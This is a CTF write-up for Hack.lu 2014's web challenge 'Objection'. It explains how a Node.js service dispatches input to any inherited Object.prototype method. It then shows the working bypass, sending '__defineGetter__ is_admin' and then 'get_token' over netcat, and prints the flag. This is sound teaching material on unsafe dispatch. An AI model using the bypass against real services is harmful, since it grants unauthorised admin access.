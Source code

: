 # Hack.lu CTF 2014: Objection

**Category:** Web
**Points:** 150
**Author:** TheJH
**Description:**

> This guard talks a weird dialect. And why does he talk in such a complicated way?
>
> Download: [objection_4966674d17ff296939c0e3dfccfe87ed.co](objection_4966674d17ff296939c0e3dfccfe87ed.co)
>
> `nc wildwildweb.fluxfingers.net 1408`

## Write-up

[The provided `objection_4966674d17ff296939c0e3dfccfe87ed.co` file](objection_4966674d17ff296939c0e3dfccfe87ed.co) resembles a Node.js app, except it’s written in “a weird dialect” instead of in JavaScript. This is [Coco](https://github.com/satyr/coco#readme), which is in turn a dialect of [CoffeeScript](http://coffeescript.org/). Let’s [compile the Coco code to JavaScript](objection.js), since we’re more familiar with that language:

```bash
$ coco -c -p objection_4966674d17ff296939c0e3dfccfe87ed.co > objection.js
```

[The source code](objection.js) reveals that the program accepts commands as input:

* `login $password` attempts to login using `$password` as the password
* `get_token` reveals the token if you’re logged in as admin

Since we don’t know the admin password, we’ll have to find another way to set `client_context.is_admin` to a truthy value, to avoid hitting this `if` branch:

```js
if (!this.is_admin) {
  return cb("You are not authorized to perform this action.");
}
```

Let’s take a look at the code that parses our input:

```js
var ref$, funcname, args;
it = it.toString('utf8');
console.log("got line: " + it);
ref$ = it.split(' ');
funcname = ref$[0];
args = slice$.call(ref$, 1);
if (typeof client_context[funcname] !== 'function') {
  return con.write("error: unknown function " + funcname + "\n");
}
return client_context[funcname](args, function(it){
  return con.write(it + "\n");
});
```

The program accepts any command `funcname` as long as `client_context[funcname]` is a JavaScript function object. This means we’re not limited to the custom `login` and `get_token` methods – we can also use function properties that are inherited from the global `Object.prototype`. Using [some old code](https://github.com/mathiasbynens/tpyo/blob/b76ca2f4d7726c51c2f8c779d73773de91f86a56/tpyo.js#L7-L22), we quickly created the following list of such properties that are available in Node.js (which is based on the V8 engine):

* `constructor`
* `hasOwnProperty`
* `isPrototypeOf`
* `propertyIsEnumerable`
* `toLocaleString`
* `toString`
* `valueOf`
* `__defineGetter__`
* `__defineSetter__`
* `__lookupGetter__`
* `__lookupSetter__`

If we enter [`__defineGetter__`](https://javascript.spec.whatwg.org/#object.prototype.__definegetter__) as the command name and `is_admin` as its argument, the following code is executed:

```js
client_context.__defineGetter__(['is_admin'], function(it) {
  return con.write(it + "\n");
});
```

After that, every time `client_context.is_admin` is accessed, it results in [the return value of `con.write(it + "\n")`](https://nodejs.org/api/net.html#net_socket_write_data_encoding_callback) instead of its initial value `false`. This means we can call `get_token` afterwards. Bingo!

```bash
$ nc wildwildweb.fluxfingers.net 1408
hello!
__defineGetter__ is_admin
get_token
undefined
The current token is flag{real_cowboys_dont_use_object_create_null}
```

The flag is `flag{real_cowboys_dont_use_object_create_null}`.

## Other write-ups and resources

* <http://akaminsky.net/hack-lu-ctf-2014-web-150-objection/>
* [Exploit in Python by @TheJH](thejh_exploit.py)
